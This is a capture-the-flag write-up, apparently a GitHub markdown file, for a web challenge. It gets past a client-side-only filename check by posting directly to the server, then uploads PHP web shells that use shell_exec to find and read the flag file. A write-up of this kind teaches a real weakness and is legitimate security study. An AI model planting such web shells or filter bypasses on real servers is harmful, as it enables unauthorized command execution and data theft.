





# Introduction
In This challange we can upload files to server , but wait there is a limit if file name ! or is it ? 
Always check limiations on server side !!

## Challange Discription

We uncovered a code repository and it appears to be where ARIA is storing mission-critical code. We need to break in!

https://uscybercombine-s4-scs.chals.io/


## Step 1

The page functionality only has one thing which is submit A **content** with a **file name** to website which will be uploaded.




When we upload data we see that it is using POST on (/) with **application/json** as content type




## Step 2

The first thing comes in mind is to upload php code and excute **RCE** on the server to find flag
But server filters input file name with bellow javascript code :

```javascript
if (pasteFileName === '') {
    pasteFileName = Math.random().toString(36).substring(7);
} else {
    if (!pasteFileName.match(/^[0-9a-zA-Z]+$/)) {
        showErrorAlert('Paste file name can only contain alphanumeric characters');
        return;
    }
}
```

To bypass this condition check in file name we have 2 options 
- Using Debuger and set breakpoint to bypass js *if*  condition 
- Creating **POST** request to upload file directly

1) First we upload bellow code to use find command where is **flag.txt** located 

```php
<?php
// Execute the 'find / -iname "*flag*"' command
$output = shell_exec('find / -iname "*flag*" 2>&1');

// Display the output
echo "<pre>$output</pre>";
?>
```

we upload with either of above methods 




Then we go call the appropriate URL and we find location of **flag.txt**:




## Step 3

The last step is too read flag with this php code :

```php
<?php
// Execute the 'find / -iname "*flag*"' command
$output = shell_exec('cat /tmp/test/html/cUnJOEKigRbjhra0KRIW6HGxncR4ekB9/flag.txt');

// Display the output
echo "<pre>$output</pre>";

$output = shell_exec('cat /var/www/html/cUnJOEKigRbjhra0KRIW6HGxncR4ekB9/flag.txt');

// Display the output
echo "<pre>$output</pre>";
?>
```

This will reveal the flag :

